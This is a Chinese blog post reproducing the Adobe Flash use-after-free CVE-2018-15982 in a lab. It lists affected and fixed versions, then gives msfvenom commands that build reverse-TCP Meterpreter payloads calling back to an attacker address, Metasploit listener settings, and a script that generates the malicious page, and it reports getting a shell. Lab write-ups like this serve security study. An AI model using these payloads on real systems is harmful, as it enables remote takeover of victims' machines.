


# CVE-2018-15982 漏洞复现 - 北极边界安全团队 - 博客园

> 原文：[`www.cnblogs.com/anbus/p/10148852.html`](https://www.cnblogs.com/anbus/p/10148852.html)

**作者：欧根**

* * *

**漏洞信息：CVE-2018-15982**

Adobe 已发布适用于 Windows，macOS，Linux 和 Chrome OS 的 Adobe Flash Player 安全更新。这些更新解决一个  关键的  Adobe Flash Player 的漏洞和一个  重要的  Adobe Flash Player 的安装程序的漏洞。成功利用可能导致当前用户的上下文中的任意代码执行和权限提升。

**CVSSV3****分数和漏洞类型：**

****

**受 CVE-2018-15982****影响的产品**

| **产品** | **版** | **平台** |
| Adobe Flash Player 桌面运行时 | 31.0.0.153 及更早版本 | Windows，macOS 和 Linux |
| 适用于 Google Chrome 的 Adobe Flash Player | 31.0.0.153 及更早版本 | Windows，macOS，Linux 和 Chrome OS  |
| 适用于 Microsoft Edge 和 Internet Explorer 11 的 Adobe Flash Player | 31.0.0.153 及更早版本 | Windows 10 和 8.1 和 win7/其他版本为测试 |
| Adobe Flash Player 安装程序 | 08.0.0.108 及更早版本 | 视窗 |

**漏洞危害：**

| **漏洞类别** | **漏洞影响** | **严重** | **CVE****编号** |
| 免费使用 | 任意代码执行 | 危急 | CVE-2018-15982  |

**修复方法：对 adb flash****进行升级**

| **产品** | **版** | **平台** | **优先** | **可用性** |
| Adobe Flash Player 桌面运行时 | 32.0.0.101 | Windows，macOS | 1 | [Flash Player 下载中心](https://get.adobe.com/flashplayer/)[Flash Player 分发](https://www.adobe.com/products/players/flash-player-distribution.html) |
| 适用于 Google Chrome 的 Adobe Flash Player | 32.0.0.101 | Windows，macOS，Linux 和 Chrome OS  | 1 | [谷歌 Chrome 发布](https://chromereleases.googleblog.com/) |
| 适用于 Microsoft Edge 和 Internet Explorer 11 的 Adobe Flash Player | 32.0.0.101 | Windows 10 和 8.1 | 1 | [Microsoft 安全通报](https://portal.msrc.microsoft.com/en-US/security-guidance) |
| Adobe Flash Player 桌面运行时 | 32.0.0.101 | Linux 的 | 3 | [Flash Player 下载中心](https://get.adobe.com/flashplayer/) |
| Adobe Flash Player 安装程序 | 31.0.0.122 | 视窗 | 2 | [Flash Player 下载中心](https://get.adobe.com/flashplayer/)[Flash Player 分发](http://www.adobe.com/products/players/flash-player-distribution.html) |

* * *

**实验环境**

> 攻击机：kali 2.0
> 
> 受害机：win7 win10

**使用工具**

> CVE-2018-0802_CVE-2017-11882-master exp
> 
> Msfconsole

**1.****创建 payload****程序**

```
msfvenom -p windows/meterpreter/reverse_tcp_rc4 RC4PASSWORD=zale LPORT=6666 LHOST=192.168.0.111 -f raw>86.bin

msfvenom -p windows/meterpreter/reverse_tcp_rc4 RC4PASSWORD=zale LPORT=6666 LHOST=192.168.0.111 -f raw>64.bin
```

这里会生成两个 bin 文件，分别为 86bin 和 64bin 估计是 32 位平台和 64 位平台

 

**监听 payload**

> use exploit/multi/handler
> 
> set payload windows/meterpreter/reverse_tcp_rc4
> 
> SET LPORT 6666
> 
> set LHOST 192.168.0.111
> 
> set RC4PASSWORD zale


**生成文件视频文件和网页**

```
python CVE_2018_15982.py -i 86.bin -I 64.bin
```



调用 py 文件，生成攻击网页和视频文件

**开启 apache****服务**

把上面生成的网页和视频放在 web 目录中


**发给受害机验证是否成功**

当受害者点击网页时


可用清楚看到已经成功返回 shell


### 至此漏洞复现结束！